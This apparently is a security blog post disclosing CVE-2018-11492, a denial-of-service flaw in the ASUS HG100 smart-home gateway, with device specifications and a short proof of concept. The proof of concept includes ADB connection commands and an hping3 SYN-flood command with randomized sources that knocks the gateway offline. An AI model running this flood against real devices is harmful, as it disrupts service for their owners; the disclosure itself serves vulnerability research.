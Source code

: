 ```yaml
---
layout: post
title:  "CVE-2018-11492"
author: Mars Cheng
tags: CVE
---
```


## **<center> ASUS HG100 exists DoS vulnerability </center>**
#### Description:ASUS HG100 devices allow denial of service via an IPv4 packet flood.

#### This vulnerability was discovered by **National Center for Cyber Security Technology (NCCST)**

<div style="text-align: center">
<img src="https://i.imgur.com/S5EAPKv.png"/>
</div>
<br>

---
<br>



## <center>Introduction of ASUS HG100 SmartHome GateWay</center>
<div style="text-align: center">
<img src="https://i.imgur.com/xkfNTTu.png"/>
</div>



| Length x width x height | Weight | Wireless connection |
| -------- | -------- | -------- |
| 152 x 67 x 167 mm     | 256g     | WiFi 802.11b/g/n ; ZigBee PRO ; BlueTooth 4.0   |

---

## <center>Proof of Concept</center>



### 1.Connect to ASUS Gateway HG100 with ADB

```
adb connect 192.168.0.108
adb shell
```
![](https://i.imgur.com/lVNHkeH.png)



### 2.Execute IP v4 flood attack
* Use Hping3 tool to execute DoS attack
```
hping3 -V -c 1000000 -d 120 -S -w 64 --flood --rand-source 192.168.0.108
```
* Confirm packets status
<div style="text-align: center">
<img src="https://i.imgur.com/cGHgMYi.png"/>
</div>


### 3.Confirm device status

* Unable to connect to ADB, and DoS attack success.
<div style="text-align: center">
<img src="https://i.imgur.com/CUnM7mQ.png"/>
</div>




